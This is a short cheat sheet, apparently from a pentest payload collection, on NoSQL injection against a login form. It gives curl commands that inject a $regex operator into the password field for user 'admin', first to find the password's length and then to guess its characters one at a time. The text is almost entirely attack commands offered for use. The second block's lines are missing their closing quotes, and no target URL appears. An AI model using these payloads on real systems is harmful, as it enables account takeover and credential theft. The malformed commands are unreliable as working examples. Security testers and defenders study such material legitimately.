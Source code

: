# NoSQL Injection

## Guessing user password
The following expression will enumerate the characters in a password. If you see an error try a different length.
Note:
You will receive a successful response up until the character limit. If characters are 5, you will error at 6
```sh
curl -L -d "user=admin" -d "pass[$regex]=^.{7}$"
curl -L -d "user=admin" -d "pass[$regex]=^.{6}$"
curl -L -d "user=admin" -d "pass[$regex]=^.{5}$"
```


## Enumerate the passwords
Once you have determined the length, start guessing characters:
```sh
curl -L -d "user=admin" -d "pass[$regex]=^a....$
curl -L -d "user=admin" -d "pass[$regex]=^b....$
curl -L -d "user=admin" -d "pass[$regex]=^c....$
```
